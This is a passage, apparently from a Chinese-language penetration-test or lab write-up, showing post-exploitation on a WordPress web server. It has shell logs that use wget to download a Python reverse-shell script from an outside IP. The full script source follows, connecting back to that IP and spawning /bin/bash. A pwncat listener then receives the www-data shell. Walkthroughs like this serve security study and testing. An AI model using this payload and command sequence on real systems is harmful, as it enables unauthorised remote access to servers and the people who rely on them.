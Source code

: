 ![img](img/image_20240733-143347.png)

命令被成功执行了

尝试进行反弹 shell

```shell
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ wget 139.9.4.56:8008/reverse-python3.py
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ cat reverse-python3.py
import os,pty,socket
s=socket.socket()
s.connect(("139.9.4.56",9999))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ python3 --version
Python 3.8.10
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ python3 reverse-python3.py
```

成功收到回连的 shell

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[14:38:51] Welcome to pwncat 🐈!
[14:39:31] received connection from 39.101.175.73:53808
[14:39:32] 39.101.175.73:53808: registered new host w/ db
(local) pwncat$ back
(remote) www-data@ubuntu-web:/var/www/html/wp-content/themes/twentytwentyone$ whoami
www-data
```
